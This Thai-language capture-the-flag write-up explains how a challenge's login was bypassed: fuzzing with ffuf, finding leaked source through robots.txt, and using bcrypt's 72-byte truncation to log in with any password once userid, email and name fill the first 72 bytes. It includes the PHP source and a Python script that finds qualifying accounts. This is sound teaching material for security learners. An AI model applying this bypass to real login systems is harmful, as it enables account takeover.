





โจทย์จากงาน BloodyXMas 2024 จัดโดย Sec Playground ครับ

อย่างแรกเลย มา fuzz หาไฟล์ที่น่าสนใจกันก่อน

```bash
% ffuf -u "http://35.198.206.165/FUZZ" -w wordlists/common.txt

dist                    [Status: 301, Size: 194, Words: 7, Lines: 8, Duration: 91ms]
index.php               [Status: 200, Size: 7554, Words: 2577, Lines: 141, Duration: 109ms]
robots.txt              [Status: 200, Size: 80, Words: 7, Lines: 5, Duration: 204ms]
:: Progress: [4686/4686] :: Job [1/1] :: 309 req/sec :: Duration: [0:00:15] :: Errors: 0 ::
```

จะเจอ robots.txt พอเข้าไปดูแล้ว ในไฟล์นั้น

```
...
http://35.198.206.165/sourcecode.zip
...
```

จะเจอลิ้งนี้เลย ซึ่งมันก็คือไฟล์เว็บนั่นเอง



ซึ่งจะมีให้ประมาณนี้ เท่าที่ดู สำคัญๆก็จะมีไม่กี่ไฟล์ ก็จะมีไฟล์
- `alldb.sql` ซึ่งเป็น db ที่เขา dump มาให้
- `login.php` `register.php` ก็ตามชื่อ
- `panel.php` ซึ่งไอ้ไฟล์นี้ น่าสนใจมากๆ
  
  นั่นแน่ flag มาโผล่นี่แน่

ต่อไป เรามาดู `login.php` กันดีกว่า

```php
<?php
	try {
		session_start();
		$conn = mysqli_connect("localhost","root","P@ssw0rd","member");
	
		// Check connection
		if (!$conn) {
    			die("Connection failed: " . mysqli_connect_error());
		}
		$myusername = mysqli_real_escape_string($conn,$_POST['email']);
		$mypassword = mysqli_real_escape_string($conn,$_POST['password']);
		#echo "The secret is : $mysecret";
	
		#$sql = "SELECT * FROM member WHERE Username = '$myusername' and password = '$mysecret'";
		#$result = mysqli_query($conn,$sql) or die("Error: " . mysqli_error($conn));
		#$count = mysqli_num_rows($result);
		$sql = "SELECT * FROM member WHERE Username = '$myusername'";
		$result=mysqli_query($conn,$sql) or die("Error: " . mysqli_error($conn));
		if ($result->num_rows > 0) {
			$row = $result->fetch_assoc();
			$storedHash = $row['Password'];
			$userid = $row['UserID'];
			$name_of_user = $row['Name'];
			echo "User exist\r\n";
			echo "User ID: $userid\r\n";
			echo "Email: $myusername\r\n";
		}
		else {
			echo "User doesn't exist";
		}
		
		// Verify password against stored hash
        	$checkpassword = $userid . $myusername . $name_of_user . $mypassword;
		// For debugging
                #error_log("Debug - Login combined length: " . strlen($checkpassword));
                #error_log("Debug - First 72 bytes: " . substr($checkpassword, 0, 72));

		if (password_verify($checkpassword, $storedHash)) {
			$_SESSION['username'] = $myusername;
			echo $_SESSION['username'];
			header("Location: panel.php");
	            	return "Login successful!";
        	} else {
			$error = "Your Login Username or Password is invalid";
			header("Location: index.php");
        	    	return "Invalid credentials";
	        }
	} catch (Exception $e) {
            error_log("Login error: " . $e->getMessage());
            throw $e;
        }
?>
```

ดูแล้ว เขาก็กัน sql injection มาอยู่ แล้วก็เหมือนจะไม่มีอะไรแล้ว

มาต่อ `register.php`

```php
<?php
	function generateSecret($userid, $username, $password, $name) {
        	$combinedString = $userid . $username . $name . $password;
        	return password_hash($combinedString, PASSWORD_BCRYPT);
    	}

	function generateUserID() {
	  	// Get current timestamp in microseconds
		$timestamp = str_replace('.', '', microtime(true));
    		// Generate a random number
	        $random = mt_rand(0, 999999);
    		// Combine and pad to exactly 20 digits
		$combined = $timestamp . $random;
		$userID = substr(str_pad($combined, 20, '0'), 0, 20);

		return $userID;
	}
	// Database configuration - should be in a separate config file
	define('DB_HOST', 'localhost');
	define('DB_USER', 'root');
	define('DB_PASS', 'P@ssw0rd');
	define('DB_NAME', 'member');

	// Set proper error reporting
	error_reporting(E_ALL);
	ini_set('display_errors', 0);
	$userid = generateUserID();

	try {
	    // Create connection using mysqli with error handling
	    $conn = new mysqli(DB_HOST, DB_USER, DB_PASS, DB_NAME);
	    
    	    // Check connection
	    if ($conn->connect_error) {
        	throw new Exception("Connection failed");
	    }
    
	    // Set charset to prevent injection attacks
	    if (!$conn->set_charset("utf8mb4")) {
	        throw new Exception("Error setting charset");
	    }

            // Validate and sanitize input
	    if (!isset($_POST['email'], $_POST['password'], $_POST['name']) || 
	        empty($_POST['email']) || 
        	empty($_POST['password']) || 
	        empty($_POST['name'])) {
	        throw new Exception("All fields are required");
	    }
    
            // Validate password strength
	    if (strlen($_POST['password']) < 8) {
	        throw new Exception("Password must be at least 8 characters long");
	    }

	    // Check if username exists
	    $stmt = $conn->prepare("SELECT Username FROM member WHERE Username = ?");
	    if (!$stmt) {
	        throw new Exception("Database error");
	    }
    
	    $email = trim($_POST['email']);
	    $stmt->bind_param("s", $email);
    
	    if (!$stmt->execute()) {
        	throw new Exception("Database error");
	    }
    
	    $result = $stmt->get_result();
    
	    if ($result->num_rows > 0) {
	        echo "Username already exists!";
	        exit();
	    }
    
	    // Close the first statement
	    $stmt->close();
    
	    // Insert new user
	    $stmt = $conn->prepare("INSERT INTO member (UserID, Username, Password, Name, Status) VALUES (?, ?, ?, ?, ?)");
	    if (!$stmt) {
	        throw new Exception("Database error");
	    }
    
	    $status = 'USER';
	    $name = trim($_POST['name']);
	    $secret = generateSecret($userid, $_POST['email'],$_POST['password'], $name);
    
	    // Bind parameters for insert
	    $stmt->bind_param("sssss", $userid, $email, $secret, $name, $status);
    
	    // Execute insert
	    if (!$stmt->execute()) {
	        throw new Exception("Registration failed");
	    }
    
	    // Set proper content type
	    header('Content-Type: text/html; charset=utf-8');
	    // Include or echo the HTML
	    include 'registration-success.html';
    
	} catch (Exception $e) {
	    // Log error securely
	    error_log("Registration error: " . $e->getMessage());
	    echo "An error occurred during registration. Please try again later.";
	} finally {
	    // Clean up
	    if (isset($stmt)) {
	        $stmt->close();
	    }
	    if (isset($conn)) {
	        $conn->close();
	    }
	}
?>
```

ซึ่งผมก็ได้ไปเอะใจฟังชั่น `generateSecret`

```php
function generateSecret($userid, $username, $password, $name) {
    $combinedString = $userid . $username . $name . $password;
    return password_hash($combinedString, PASSWORD_BCRYPT);
}
```

ในตัวฟังชั่นนั้น จะเอา `userid` `username` `name` `password` มาต่อกัน แล้วก็ไป hash ด้วย ฟังชั่น `password_hash` ซึ่งเป็น built-in function ของ php

แล้วไอ้ตัวฟังชั่น `password_hash` มันใช้ bcrypt

แล้วไอ้ตัว `bcrypt` มันก็มีข้อจำกัดของมันอยู่ คือ มันจะเอาแค่ตัวอักษร 72 byte แรก มา hash

เรามาวิเคราห์ argument แต่ละตัวกันดีกว่า ว่ามาจากไหนบ้าง ความยาวเท่าไหร่?

```php
$secret = generateSecret($userid, $_POST['email'],$_POST['password'], $name);
```

ตัวแรกคือ `$userid`
```php
function generateUserID() {
	// Get current timestamp in microseconds
	$timestamp = str_replace('.', '', microtime(true));
    // Generate a random number
	$random = mt_rand(0, 999999);
    // Combine and pad to exactly 20 digits
	$combined = $timestamp . $random;
	$userID = substr(str_pad($combined, 20, '0'), 0, 20);

	return $userID;
}
$userid = generateUserID();
```

โอเค ความยาวของ `$userid` เนี่ย! มัน 20 ตัวอักษรแน่ๆ แล้วที่เหลือ มาจาก user กรอกล้วนๆ

อย่าพึ่งลืมมม!! เขา dump db มาให้ด้วย ผมก็เลยเขียน script python นี้ขึ้นมา เพื่อหาว่า เมื่อนำเอาข้อมูล `userid` `username` `name` `password` มาต่อกันแล้วความยาว >= 72 จริงๆ ไม่ต้องเอา password มาต่อหรอก เพราะเราจะเข้าสู่ระบบโดยการจะกรอก password อะไรก็ได้ ☺️☺️☺️

```python
import re

with open("users.txt") as f:
    users = re.compile(r"\((\d+),'([\d]+)','([\w\.\+-]+@[\w\.-]+\.[a-zA-Z]+)','([\$a-zA-Z0-9\./]+)','([\w\s]+)','(\w+)'\)").findall(f.read())
    for user in users:
        [_, userid, email, _, name, _] = user
        checkpass = userid+email+name
        
        if len(checkpass) >= 72:
            print(email, len(checkpass))
```

จะได้เป็น

```
christopher_rodriguez@gmail.com 72
christopherthompson25@outlook.com 73
christopherhernandez66@outlook.com 75
martinez.christopher@outlook.com 72
alexander.rodriguez815@hotmail.com 73
charlotte.hernandez560@outlook.com 73
oknaka.support@secplayground.com 78
christopher.hernandez200@aol.com 73
rodriguez.christopher@outlook.com 74
```

แล้ว**ตาวิเศษ**ของผมก็ไปเห็นเมลที่ domain เป็น secplayground.com ก็เลย เอาไปลอง login ก่อน

```
email: oknaka.support@secplayground.com
password: what ever u want
```

แล้วก็เจอ



ถ้าถามว่ามัน login ผ่านได้ยังไง คืออย่างที่กล่าวไปตอนแรก ไอ้เจ้าตัว bcrypt เนี่ย มันจะเอาแค่ 72 byte แรกของสายอักขระไป hash แล้ว byte ที่ 73 ขึ้นไปคือลูกเมียน้อย(โดนเมิน) แล้วตัวที่เราเลือก แค่ไอ่ `userid+email+name` มันก็ปาไป 78 ตัว แล้วจริงๆระบบอะมันจะต่อ `password` ตามหลังไปอีก ซึ่งจะต่อ `password` มาอีกไกลแค่ไหนก็ไม่มีผลแล้ว เพราะมันไม่ได้ถูกเอาไป hash ด้วย เราก็เลย**หวานเจี๊ยบ**

จริงๆ มันไม่ได้สวยหรูแบบนี้หรอก แต่เครื่องทีมผมมีปัญหาอยู่ทีมเดียวมั้ง



แก้ได้ แต่เครื่องแม่งเกียน ให้ `[[RANDOM_SECRET]]` มา ไอ่🍌

